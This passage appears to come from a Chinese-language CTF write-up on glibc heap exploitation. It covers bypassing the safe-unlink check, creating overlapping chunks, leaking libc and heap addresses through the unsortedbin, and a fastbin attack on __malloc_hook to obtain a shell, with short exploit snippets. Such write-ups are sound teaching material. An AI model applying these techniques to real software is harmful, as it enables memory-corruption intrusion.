 unlink 时出现错误，原因就是 chunk_B 在 safe unlink 时`bk->fd==p && fd->bk==p`这个条件不满足

在以往的程序中要绕过也很容易，只需要将 chunk_B1 的 fd、bk 都设置为自身，就可以通过这个判断；

但是这样的前提是程序存在一个堆的地址泄漏

这里可以使用的方法是将 B1 释放，让它真的是一个 unsortedbin，这样就可以通过 unlink 的条件

![](https://static.hack1s.fun/images/2021/12/09/image-20211209154215937.png)  
overlap 的 chunk 还有 B2，也可以用于进一步的攻击

```
chunk_A = malloc(0x88)
chunk_B = malloc(0x208)
chunk_C = malloc(0x88)
chunk_D = malloc(0x88)

free(chunk_B)
edit(chunk_A,"a"*0x88)

chunk_B1 = malloc(0xf8)
chunk_B2 = malloc(0xf8)

free(chunk_B1)
free(chunk_C)

```

执行 exploit 可以看到触发了 consolidate，chunk_B 和 C 合并后放到了 unsortedbin 中

![](https://static.hack1s.fun/images/2021/12/09/image-20211209154503315.png)

其中绿色是 chunk_B1，蓝色是 chunk_B2，红色是 chunk_C

目前 chunk_B2 的指针还是可用的，接下来先利用 unsortedbin leak 得到 libc 的地址和堆地址

libc 的地址可以通过再次申请 B1，触发 remaindering 之后填在 B2 的 fd 和 bk 处

而堆地址的话，则可以通过释放 chunk_A，将 chunk_A 也加入到 unsortedbin 中

这样更新 fd、bk 时会在 B2 的 fd 写入 main_arena 中的地址，bk 写入 chunk_A 的地址；

![](https://static.hack1s.fun/images/2021/12/09/image-20211209162148870.png)

就可以一次读获取到两个 leak

```
chunk_B1 = malloc(0xf8)
free(chunk_A)

data = read(chunk_B2,16)
libc.address = libc.sym.__malloc_hook - (u64(data[:8])-0x68)
heap = u64(data[8:])

```

有了 libc 的地址，最后利用 fastbin attack 修改 malloc_hook 就可以拿到 shell 了
